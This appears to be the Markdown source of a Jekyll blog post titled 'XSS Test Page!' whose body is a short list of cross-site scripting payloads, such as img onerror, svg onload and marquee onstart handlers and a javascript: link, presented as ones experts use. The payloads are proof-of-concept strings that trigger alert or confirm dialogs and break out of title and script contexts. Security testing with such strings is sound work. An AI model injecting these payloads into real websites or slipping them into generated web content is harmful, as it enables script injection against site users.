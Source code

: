 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



Some of the great XSS payloads used by experts in security industry,

'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>
<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 
“><svg/onload=alert(document.domain)>”@x.y
<marquee onstart=alert(1)>
'>"><svg/onload=alert()>
